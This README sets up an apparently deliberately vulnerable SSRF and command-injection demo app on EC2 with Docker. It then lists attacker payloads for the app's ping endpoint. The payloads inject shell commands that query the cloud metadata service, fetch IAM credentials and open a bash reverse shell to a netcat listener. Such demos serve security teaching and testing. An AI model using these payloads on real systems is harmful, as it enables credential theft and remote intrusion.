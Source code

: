 # Setup EC2
- Connect to EC2
```
ssh -i <pem-key>.pem ec2-user@<ec2-public-ip>
```

- Setup EC2
```
sudo yum install docker -y
sudo service docker start
sudo yum install git -y
```

- (Optional) Test docker
```
docker run hello-world
```

- Start application
```
git clone https://github.com/agusalberca/ssrf-demo-app.git
cd /home/ec2-user/ssrf-demo-app
sudo docker build -t ssrf-demo-app .
sudo docker run -d -p 3000:3000 --name ssrf-demo-app ssrf-demo-app
```

# Atacker machine
## Setup
- Run listener: `nc -lvp 4444`

## Exploit
Post to endpoint `curl 'https://<victim-id>/ping?host='`
    - `8.8.8.8; ls -la`
    - `8.8.8.8; curl -IL -s https://www.google.com`
    - `8.8.8.8; curl -s 'http://169.254.169.254/latest/meta-data/'`
    - `8.8.8.8; curl -s 'http://169.254.169.254/latest/meta-data/iam/security-credentials/'`
    - `8.8.8.8; bash -i >& /dev/tcp/attacker-ip/4444 0>&1`